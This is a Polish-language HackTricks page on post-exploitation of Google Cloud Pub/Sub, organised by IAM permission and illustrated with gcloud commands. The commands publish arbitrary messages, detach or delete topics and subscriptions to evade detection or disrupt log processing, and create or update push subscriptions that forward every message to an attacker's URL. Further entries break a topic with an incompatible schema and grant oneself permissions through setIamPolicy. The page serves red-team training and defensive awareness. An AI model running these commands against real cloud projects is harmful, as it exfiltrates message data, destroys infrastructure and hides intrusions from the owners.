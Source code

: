 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Pub/Sub

Aby uzyskać więcej informacji o Pub/Sub, sprawdź następującą stronę:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Opublikuj wiadomość w temacie, przydatne do **wysyłania nieoczekiwanych danych** i wywoływania nieoczekiwanych funkcjonalności lub wykorzystywania luk:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Przydatne do zapobiegania odbieraniu wiadomości przez subskrypcję, być może w celu uniknięcia wykrycia.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Przydatne do zapobiegania subskrypcji w odbieraniu wiadomości, być może w celu uniknięcia wykrycia.\
Możliwe jest usunięcie tematu, nawet jeśli są do niego przypisane subskrypcje.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Użyj tego uprawnienia, aby zaktualizować niektóre ustawienia tematu, aby go zakłócić, takie jak `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Nadaj sobie uprawnienia do przeprowadzenia dowolnych z poprzednich ataków.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Pobierz wszystkie wiadomości na serwerze internetowym:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Utwórz subskrypcję i użyj jej do **pobierania wiadomości**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Usunięcie subskrypcji** może być przydatne do zakłócenia systemu przetwarzania logów lub czegoś podobnego:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Użyj tego uprawnienia, aby zaktualizować niektóre ustawienia, aby wiadomości były przechowywane w miejscu, do którego masz dostęp (URL, tabela Big Query, Bucket) lub po prostu, aby to zakłócić.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Nadaj sobie uprawnienia potrzebne do przeprowadzenia wcześniej omówionych ataków.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Zaatakuj schemat do tematu, aby wiadomości go nie spełniały, a tym samym temat został zakłócony.\
Jeśli nie ma żadnych schematów, być może będziesz musiał stworzyć jeden.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

To może wyglądać jak usunięcie schematu, dzięki czemu będziesz mógł wysyłać wiadomości, które nie spełniają wymagań schematu. Jednakże, ponieważ schemat zostanie usunięty, żadna wiadomość tak naprawdę nie wejdzie do tematu. Więc to jest **BEZUŻYTECZNE**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Nadaj sobie uprawnienia potrzebne do przeprowadzenia dowolnych wcześniej omówionych ataków.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

To stworzy migawkę wszystkich niepotwierdzonych wiadomości i przywróci je do subskrypcji. Niezbyt przydatne dla atakującego, ale oto to:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
